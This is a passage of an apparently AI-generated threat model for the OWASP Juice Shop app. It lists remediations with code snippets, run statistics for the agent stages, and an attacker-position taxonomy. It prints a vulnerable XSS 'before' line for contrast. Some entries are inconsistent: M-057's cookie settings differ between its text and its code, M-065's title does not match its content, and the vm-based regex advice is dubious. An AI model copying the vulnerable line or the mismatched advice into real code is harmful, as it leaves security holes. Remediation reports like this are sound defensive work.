**How:** Issue the JWT as a `Set-Cookie: token=<jwt>; HttpOnly; Secure; SameSite=Strict; Path=/` response header from the login endpoint instead of returning it in the JSON body. Remove all `localStorage.setItem('token', ...)` and `localStorage.getItem('token')` calls from Angular components. Update `RequestInterceptor` to remove the `Authorization` header injection - the browser will automatically send the `httpOnly` cookie. Add a CSRF token mechanism (e.g., double-submit cookie pattern or `csurf` middleware) since cookie-based auth requires CSRF protection on state-changing requests.

1. Issue the JWT as a `Set-Cookie: token=<jwt>; HttpOnly; Secure; SameSite=Strict; Path=/` response header from the login endpoint instead of returning it in the JSON body.
2. Remove all `localStorage.setItem('token', ...)` and `localStorage.getItem('token')` calls from Angular components.
3. Update `RequestInterceptor` to remove the `Authorization` header injection - the browser will automatically send the `httpOnly` cookie.
4. Add a CSRF token mechanism (e.g., double-submit cookie pattern or `csurf` middleware) since cookie-based auth requires CSRF protection on state-changing requests.

```typescript
// Move the JWT out of localStorage into an httpOnly cookie.
res.cookie('session', token, {
  httpOnly: true, secure: true, sameSite: 'lax', maxAge: 3600_000
})
```

**Verification:** Open browser DevTools, run `localStorage.getItem('token')` and confirm `null`.

**Reference:** CWE-922

---

<a id="m-058"></a>
#### M-058 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-053](#f-053) — DOM XSS (`last-login-ip.component.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `last-login-ip.component.ts:39`

**How:** Remove `bypassSecurityTrustHtml` at `last-login-ip.component.ts:39`. Assign `this.lastLoginIp = payload.data.lastLoginIp` as a plain string. Update the template to use `{{lastLoginIp}}` interpolation instead of `[innerHTML]`, so Angular's auto-escaping applies. Validate the `lastLoginIp` field server-side before storing it in the JWT - accept only valid IPv4/IPv6 patterns.

1. Remove `bypassSecurityTrustHtml` at `last-login-ip.component.ts:39`. Assign `this.lastLoginIp = payload.data.lastLoginIp` as a plain string.
2. Update the template to use `{{lastLoginIp}}` interpolation instead of `[innerHTML]`, so Angular's auto-escaping applies.
3. Validate the `lastLoginIp` field server-side before storing it in the JWT - accept only valid IPv4/IPv6 patterns.

```javascript
// BEFORE:
this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`);
// AFTER:
this.lastLoginIp = payload.data.lastLoginIp ?? '?'; // template: <small>{{lastLoginIp}}</small>
```

**Reference:** CWE-79

---

<a id="m-059"></a>
#### M-059 — Add security audit logging

**Addresses:**

- 🟡 [F-054](#f-054) — No Authentication Event Audit Logging (`routes/login.ts:19`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/login.ts:19`

**How:** Integrate a structured logging library (e.g., `winston` with a JSON transport) and emit audit events on: successful login (user ID, IP, timestamp), failed login (email attempted, IP, timestamp), password reset (user ID, IP, timestamp), 2FA enable/disable (user ID, IP, timestamp). Write audit logs to an append-only sink (separate log file or remote SIEM) - not the same mutable DB that the app writes session data to. Include at minimum: `actor`, `action`, `resource`, `timestamp`, `sourceIp`, `outcome` in every audit record.

1. Integrate a structured logging library (e.g., `winston` with a JSON transport) and emit audit events on: successful login (user ID, IP, timestamp), failed login (email attempted, IP, timestamp), password reset (user ID, IP, timestamp), 2FA enable/disable (user ID, IP, timestamp).
2. Write audit logs to an append-only sink (separate log file or remote SIEM) - not the same mutable DB that the app writes session data to.
3. Include at minimum: `actor`, `action`, `resource`, `timestamp`, `sourceIp`, `outcome` in every audit record.

```javascript
// In afterLogin(), after JWT issuance:
auditLogger.info({ actor: user.data.email, action: 'LOGIN_SUCCESS', sourceIp: req.ip, timestamp: new Date().toISOString() })
```

**Reference:** CWE-778

---

<a id="m-060"></a>
#### M-060 — Add security audit logging

**Addresses:**

- 🟡 [F-055](#f-055) — Missing Structured Audit Log for B2B Order Execution (`routes/b2bOrder.ts:16`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:16`

**How:** In `routes/b2bOrder.ts`, import the application's logger (e.g. `winston`) and emit a structured log entry on each order request including: JWT subject (`req.auth?.sub`), order number, `SHA-256` hash of `orderLinesData` (not raw payload - avoid logging potentially malicious expressions), HTTP status, and timestamp. Log sandbox errors with the error class/message at WARN level, including the actor subject and a truncated/hashed payload, so RCE attempts are detectable in log analysis. Route audit logs to an append-only sink (e.g. a dedicated log group, Splunk, or ELK) separate from the application process to prevent log tampering by an attacker who achieves RCE.

1. In `routes/b2bOrder.ts`, import the application's logger (e.g. `winston`) and emit a structured log entry on each order request including: JWT subject (`req.auth?.sub`), order number, `SHA-256` hash of `orderLinesData` (not raw payload - avoid logging potentially malicious expressions), HTTP status, and timestamp.
2. Log sandbox errors with the error class/message at WARN level, including the actor subject and a truncated/hashed payload, so RCE attempts are detectable in log analysis.
3. Route audit logs to an append-only sink (e.g. a dedicated log group, Splunk, or ELK) separate from the application process to prevent log tampering by an attacker who achieves RCE.

```typescript
import crypto from 'node:crypto'
// In b2bOrder handler, after successful execution:
const payloadHash = crypto.createHash('sha256').update(orderLinesData).digest('hex')
console.log(JSON.stringify({
  event: 'b2b_order_placed',
  actor: (req as any).auth?.sub ?? 'unknown',
  orderNo: result.orderNo,
  payloadHash,
  ts: new Date().toISOString()
}))
```

**Reference:** CWE-778

---

<a id="m-061"></a>
#### M-061 — Add security audit logging

**Addresses:**

- 🟡 [F-056](#f-056) — No Audit Logging for Data Write Operations (`models/index.ts:39`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/index.ts:39`

**How:** Add Sequelize lifecycle hooks (`afterCreate`, `afterUpdate`, `afterDestroy`) on UserModel to emit a structured audit log entry: `{ ts, actor: userId, action: 'create'|'update'|'delete', model: 'User', recordId, changedFields }`. Write audit logs to an append-only sink (e.g. a separate audit table with no UPDATE/DELETE permissions, or a write-once log stream). Add MarsDB update/insert hooks in `data/mongodb.ts` to log review and order write operations. Change `logging: false` to a structured logger (e.g. `logging: (sql, timing) => auditLogger.info({ sql, timing })`) or keep false but ensure the hooks above cover security-relevant operations.

1. Add Sequelize lifecycle hooks (`afterCreate`, `afterUpdate`, `afterDestroy`) on UserModel to emit a structured audit log entry: `{ ts, actor: userId, action: 'create'|'update'|'delete', model: 'User', recordId, changedFields }`.
2. Write audit logs to an append-only sink (e.g. a separate audit table with no UPDATE/DELETE permissions, or a write-once log stream).
3. Add MarsDB update/insert hooks in `data/mongodb.ts` to log review and order write operations.
4. Change `logging: false` to a structured logger (e.g. `logging: (sql, timing) => auditLogger.info({ sql, timing })`) or keep false but ensure the hooks above cover security-relevant operations.

```javascript
// models/user.ts — add audit hook
User.addHook('afterCreate', (user: User) => {
  auditLog.info({ ts: new Date(), action: 'user.create', userId: user.id, email: user.email, role: user.role })
})
User.addHook('afterUpdate', (user: User) => {
  auditLog.info({ ts: new Date(), action: 'user.update', userId: user.id, changed: user.changed() })
})
```

**Reference:** CWE-778

---

<a id="m-062"></a>
#### M-062 — Add security audit logging

**Addresses:**

- 🟡 [F-057](#f-057) — No Audit Log on Unauthenticated File Upload or (`routes/fileUpload.ts:75`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/fileUpload.ts:75`

**How:** Add `logger.info({ event: 'file_upload', userId: loggedInUser?.data?.id ?? 'anonymous', filename: file.originalname, size: file.size, outcome: 'accepted' })` at the successful-processing point in each upload handler. For `profileImageUrlUpload`, log `{ event: 'url_fetch', userId: loggedInUser.data.id, url: url, outcome: 'success'|'error' }` in both success and error branches. Pipe logs to an append-only sink (e.g., CloudWatch Logs, Splunk) to prevent tampering after an incident. Configure log retention per PCI-DSS Req 10.5 (minimum 12 months, 3 months immediately available).

1. Add `logger.info({ event: 'file_upload', userId: loggedInUser?.data?.id ?? 'anonymous', filename: file.originalname, size: file.size, outcome: 'accepted' })` at the successful-processing point in each upload handler.
2. For `profileImageUrlUpload`, log `{ event: 'url_fetch', userId: loggedInUser.data.id, url: url, outcome: 'success'|'error' }` in both success and error branches.
3. Pipe logs to an append-only sink (e.g., CloudWatch Logs, Splunk) to prevent tampering after an incident.
4. Configure log retention per PCI-DSS Req 10.5 (minimum 12 months, 3 months immediately available).

```javascript
// fileUpload.ts — add after successful processing
logger.info({
  event: 'file_upload',
  userId: 'anonymous',   // replace with authenticated user id when auth is added
  filename: file.originalname,
  size: file.size,
  fileType: fileType,
  ip: req.ip,
  outcome: 'processed'
})
```

**Reference:** CWE-778

---

<a id="m-063"></a>
#### M-063 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-058](#f-058) — Sandbox Error Details Leaked to B2B API Callers (`routes/b2bOrder.ts:32`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:32`

**How:** In the catch block at `routes/b2bOrder.ts:32`, replace `next(err)` with `next(new Error('Invalid order expression'))` - a generic error message that reveals nothing about the internal evaluator. Log the original error server-side (with the actor identity and payload hash) before discarding it from the response path. Ensure the Express error-handling middleware at the application level also strips stack traces from 500 responses sent to clients in production (set `NODE_ENV=production` or use `helmet()` error filtering).

1. In the catch block at `routes/b2bOrder.ts:32`, replace `next(err)` with `next(new Error('Invalid order expression'))` - a generic error message that reveals nothing about the internal evaluator.
2. Log the original error server-side (with the actor identity and payload hash) before discarding it from the response path.
3. Ensure the Express error-handling middleware at the application level also strips stack traces from 500 responses sent to clients in production (set `NODE_ENV=production` or use `helmet()` error filtering).

```typescript
} catch (err) {
  if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
    challengeUtils.solveIf(challenges.rceOccupyChallenge, () => { return true })
    res.status(503)
    next(new Error('Sorry, we are temporarily not available! Please try again later.'))
  } else {
    challengeUtils.solveIf(challenges.rceChallenge,
      () => { return utils.getErrorMessage(err) === 'Infinite loop detected - reached max iterations' })
    // Log original error server-side, return generic to caller
    console.error('b2bOrder sandbox error:', utils.getErrorMessage(err))
    next(new Error('Invalid order expression'))
  }
}
```

**Reference:** CWE-209

---

<a id="m-064"></a>
#### M-064 — Pre-validate and length-cap data before regex match

**Addresses:**

- 🟡 [F-062](#f-062) — ReDoS (`registerWebsocketEvents.ts:47`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:47`

**How:** Add a length check before the regex: `if (typeof data !== 'string' || data.length > 500) return;` to reject oversized or non-string inputs. Rewrite the regex to be anchored and non-backtracking: replace the leading `.*` with `^[^]*?` and reduce ambiguity in the middle quantifier, or use a non-backtracking approach by splitting on known delimiters first. Consider using the `Node.js` `vm.runInNewContext()` with a timeout, or the `re2` package (a linear-time RE2 engine for Node), for any regex applied to untrusted input.

1. Add a length check before the regex: `if (typeof data !== 'string' || data.length > 500) return;` to reject oversized or non-string inputs.
2. Rewrite the regex to be anchored and non-backtracking: replace the leading `.*` with `^[^]*?` and reduce ambiguity in the middle quantifier, or use a non-backtracking approach by splitting on known delimiters first.
3. Consider using the `Node.js` `vm.runInNewContext()` with a timeout, or the `re2` package (a linear-time RE2 engine for Node), for any regex applied to untrusted input.

```javascript
socket.on('verifySvgInjectionChallenge', (data: any) => {
  if (typeof data !== 'string' || data.length > 500) return  // ReDoS guard
  challengeUtils.solveIf(challenges.svgInjectionChallenge, () => {
    return data.match(/.*\.\.\/\.\.\/\.\.[\ w/-]*?\/redirect\?to=https?:\/\/placecats\.com\/(g\/)?[\d]+\/[\d]+.*/) &&
      security.isRedirectAllowed(data)
  })
})
```

**Reference:** CWE-1333

---

### P4 — Backlog

<a id="m-010"></a>
#### M-010 — Add a container healthcheck

**Addresses:**

- 🟢 [F-064](#f-064) — Missing HEALTHCHECK instruction — Dockerfile

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `Dockerfile`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health` - Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

---

<a id="m-065"></a>
#### M-065 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-063](#f-063) — Archived Action Dependency in Release Pipeline (`release.yml:66`)

**Priority:** P4 - Backlog · **Effort:** Low · **File:** `.github/workflows/release.yml:66`

**How:** Replace `dawidd6/action-get-tag` with the built-in `github.ref_name` context variable, which is available in GitHub Actions when the workflow is triggered by a tag push. This eliminates the external action dependency entirely: `echo "TAG_NAME=${{ github.ref_name }}" >> $GITHUB_ENV`. Remove the `id: tag` step and update the subsequent `tags:` reference from `${{ steps.tag.outputs.tag }}` to `${{ github.ref_name }}` in the Docker build-push step.

1. Replace `dawidd6/action-get-tag` with the built-in `github.ref_name` context variable, which is available in GitHub Actions when the workflow is triggered by a tag push. This eliminates the external action dependency entirely: `echo "TAG_NAME=${{ github.ref_name }}" >> $GITHUB_ENV`.
2. Remove the `id: tag` step and update the subsequent `tags:` reference from `${{ steps.tag.outputs.tag }}` to `${{ github.ref_name }}` in the Docker build-push step.

```javascript
# release.yml — docker job, replace archived action with context variable
- name: "Get tag name"
  run: echo "TAG_NAME=${{ github.ref_name }}" >> $GITHUB_ENV
# Then in build-push-action:
# tags: bkimminich/juice-shop:${{ env.TAG_NAME }}
```

**Reference:** CWE-1104

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-17 16:40 UTC |
| Mode | full |
| Assessment depth | thorough |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Total analysis duration | 98m 06s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|--------|--------|----------|---------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 71m 51s | 437 | 844,575 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 9m 22s | 128 | 201,173 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 8m 20s | 62 | 198,117 |
| 3 | QA Review | appsec-qa-reviewer | sonnet | 3m 49s | 24 | 116,104 |
| 4 | Architect Review | appsec-architect-reviewer | opus | 4m 42s | 24 | 97,522 |
| **Total** | - | - | - | **98m 06s** | **675** | **1,457,491** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 3m 12s |
| Phase 2 | Reconnaissance - .recon-summary.md ready | recon-scanner (sonnet-4-6) | 3m 14s |
| Phase 3 | Architecture Modeling - 4 diagrams produced | threat-analyst (sonnet-4-6) | 2m15s |
| Phase 4 | Attack Walkthroughs - 3 walkthroughs<br/>rendered | threat-analyst (sonnet-4-6) | 2m05s |
| Phase 5 | Asset Identification - 12 assets catalogued | threat-analyst (sonnet-4-6) | 1m10s |
| Phase 6 | Attack Surface Mapping - 29 unauthenticated<br/>entry points, 83 authenticated | threat-analyst (sonnet-4-6) | 1m05s |
| Phase 7 | Trust Boundary Analysis - 6 boundaries | threat-analyst (sonnet-4-6) | 1m20s |
| Phase 8 | Security Controls - Unsafe: 7 Weak: 3<br/>Partial: 2 Adequate: 0 | threat-analyst (sonnet-4-6) | 3m10s |
| Phase 9 | STRIDE merge - 64 threats (Critical:12<br/>High:40 Medium:10 Low:2), 🔴 [F-001](#f-001) — JWT Bearer Token Stored in localStorage — `login.component.ts:101`..🟢 [F-064](#f-064) — Missing HEALTHCHECK instruction — Dockerfile, 0… | Nx stride-analyzer (sonnet-4-6) | 93s |
| Phase 10 | Scan Synthesis - 42 source-auth findings, 15<br/>config-scan findings, 2 sca-practice MF, 5… | threat-analyst (sonnet-4-6) | 23s |
| Phase 10b | Triage Validation - 26 flags (26 warnings, 0<br/>info) - sidecars written | appsec-triage-validator (sonnet-4-6) | 170s |
| Phase 11 | Finalization (Substeps 1-3) - yaml written<br/>(5220 lines), baseline cache updated… | threat-analyst (sonnet-4-6) | 166s |
| Phase 11 | Management summary [RENDER_ROLE=ms] -<br/>authored `ms-verdict.json`… | threat-analyst (sonnet-4-6) | 2m 30s |
| Phase 11 | [§7](#7-security-architecture) enrichment complete (RENDER_ROLE=secarch) | threat-analyst (sonnet-4-6) | 7m 52s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)